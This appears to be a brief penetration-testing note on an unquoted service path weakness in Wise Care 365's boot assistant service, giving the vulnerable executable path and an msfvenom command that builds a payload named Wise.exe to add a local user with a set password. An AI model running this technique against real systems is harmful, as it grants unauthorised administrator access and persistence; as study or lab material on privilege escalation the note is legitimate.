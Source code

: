 # wise care 365, wisebootassistant

## unquoted service path

v5.6.7.568

```
# path
C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe
# usual payload didnt work
msfvenom -p windows/adduser USER=kashz PASS='kashz!@azSX' -f exe -o Wise.exe
```
